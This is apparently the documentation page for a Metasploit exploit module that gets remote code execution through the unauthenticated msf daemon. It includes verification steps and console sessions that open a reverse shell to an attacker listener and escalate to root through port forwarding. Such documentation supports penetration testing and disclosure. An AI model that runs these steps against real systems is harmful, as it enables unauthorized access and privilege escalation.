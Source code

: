 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can target remote systems if the daemon is
exposed on a remote interface or it can be used for privilege escalation when
the attacker has a foothold. If used as privilege escalation, port forwarding
must be set up.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04
* Metasploit 4.16.51 on Windows 7

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

1. Start the vulnerable service: `msfd -f -q -a 0.0.0.0`
2. Start `msfconsole`
3. Do: `use exploit/multi/misc/msfd_rce_remote`
4. Do: `set RHOST [IP]`
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. You should get a shell


## Options

  **RHOST**

  Remote Host

  **RPORT**

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Remote target

  ```
  msf5 > use exploit/multi/misc/msfd_rce_remote
  msf5 exploit(multi/misc/msfd_rce_remote) > set rhost 192.168.56.101
  rhost => 192.168.56.101
  msf5 exploit(multi/misc/msfd_rce_remote) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf5 exploit(multi/misc/msfd_rce_remote) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf5 exploit(multi/misc/msfd_rce_remote) > set lport 443
  lport => 443
  msf5 exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 1 opened (172.17.0.2:443 -> 192.168.0.17:48152) at 2018-04-22 18:43:41 +0000

  whoami
  robin
  ```


### Local target - privilege escalation

  ```
  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > shell
  Process 17366 created.
  Channel 1 created.
  netstat -lntup|grep 55554
  (Not all processes could be identified, non-owned process info
   will not be shown, you would have to be root to see it all.)
  tcp        0      0 127.0.0.1:55554         0.0.0.0:*      LISTEN -
  ps aux | grep msfd
  root     17303  3.3 13.8 535168 283492 pts/18  Sl+  20:47   0:08 ruby ./msfd -f -q
  ^C
  Terminate channel 1? [y/N]  y
  meterpreter > portfwd add -l 55554 -p 55554 -r 127.0.0.1
  [*] Local TCP relay created: :55554 <-> 127.0.0.1:55554
  meterpreter > background
  [*] Backgrounding session 2...
  msf5 > use exploit/multi/misc/msfd_rce_remote
  msf5 exploit(multi/misc/msfd_rce_remote) > set rhost 127.0.0.1
  rhost => 127.0.0.1
  msf5 exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 3 opened (172.17.0.2:443 -> 192.168.0.17:48300) at 2018-04-22 18:55:19 +0000

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

